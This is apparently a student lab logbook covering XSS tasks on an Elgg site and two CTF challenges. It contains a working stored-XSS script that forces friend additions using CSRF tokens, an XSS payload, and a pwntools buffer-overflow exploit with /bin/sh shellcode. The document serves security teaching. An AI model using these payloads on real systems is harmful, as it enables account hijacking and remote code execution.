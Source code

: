 ## Task 1

We did what was suggested and got an alert when accessing the user's profile.

[Logbook 10 - Task 1.1](/screenshots/logbook10-task1-1.png)

[Logbook 10 - Task 1.2](/screenshots/logbook10-task1-2.png)

## Task 2

We repeated the procedure of task 1, but now we replaced the alert's content with the user's cookie.

[Logbook 10 - Task 2.1](/screenshots/logbook10-task2-1.png)

[Logbook 10 - Task 2.2](/screenshots/logbook10-task2-2.png)

## Task 3

Once again we followed the instructions given: placed the script in the profile's description and opened a separate terminal to check if it worked. We got the cookie as expected.

[Logbook 10 - Task 3.1](/screenshots/logbook10-task3-1.png)

[Logbook 10 - Task 3.2](/screenshots/logbook10-task3-2.png)

## Task 4

First we used the firefox extension to inspect the request made to add a friend. We realized the request's url was /action/friends/add, and since it was a get request it was followed by the parameters we wanted to pass. In this case, what we assumed was the friends ID. We inspected Samy's user profile and realized his ID was 59, so we ended up with the following script:

```
window.onload = function(){
  var Ajax=null;
  var ts="&elgg_ts="+elgg.security.token.elgg_ts;
  var token="&elgg_token="+elgg.security.token.elgg_token;
  //Construct the HTTP request to add Samy as a friend.
  var sendurl="/action/friends/add?friend=59"+ts+token+ts+token;
  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
```

With the script made, all that was left to do was place it in the user's profile. After accessing the user profile and checking the user's friend list we realized we were successful.

[Logbook 10 - Task 4.1](/screenshots/logbook10-task4-1.png)

[Logbook 10 - Task 4.2](/screenshots/logbook10-task4-2.png)

[Logbook 10 - Task 4.3](/screenshots/logbook10-task4-3.png)

## CTF

### Challenge 1

After inspecting the webpage we realized there was a vulnerability that allowed us to run a script by writing it in between script tags on the input available to beg for a flag. After realizing that, it was a matter of try and error until we got to the solution which was inserting the following script:

```<script>document.querySelector("#giveflag").click()</script>```

### Challenge 2

In this challenge the goal was to exploit the vulnerability in the gets() function, by using a buffer overflow to inject shellcode. To do this we used the address of the buffer which was provided during the execution of the program. We first analyzed the program to find the offset between the buffer's starting content and the return address, which was 108. Then we filled the buffer with a few NOPs for safety, followed by the shellcode and padding, until we got to the 108th byte, where the return address is located. There we placed the address of the buffer, so when the program tries to return, it goes to the location of our shellcode. Then it was a matter of executing our script:

```python
from pwn import *
import struct
import sys

p = remote("ctf-fsi.fe.up.pt", 4001)
p.recvline()
address_string = p.recvlineS()[-12:-2] # Retrieves the buffer's address from the program's output
address = int(address_string,16)
p.recvline()

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
content = bytearray(0x90 for i in range(112))
content[20:(20+len(shellcode))]=(shellcode).encode('latin-1')
content[108:112]=(address).to_bytes(4,byteorder='little')

p.sendline(content)
p.interactive()

```

[Challenge 2](/screenshots/ctf10-2.png)